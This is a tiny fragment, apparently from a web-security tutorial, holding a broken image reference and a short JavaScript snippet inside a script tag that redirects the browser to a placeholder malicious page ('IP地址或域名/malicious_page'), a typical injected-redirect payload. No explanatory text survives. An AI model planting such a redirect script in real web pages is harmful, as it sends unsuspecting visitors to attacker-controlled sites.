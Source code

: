 ```javascript
<script>
 window.location.href = "http://IP地址或域名/malicious_page";
 </script>
```

###
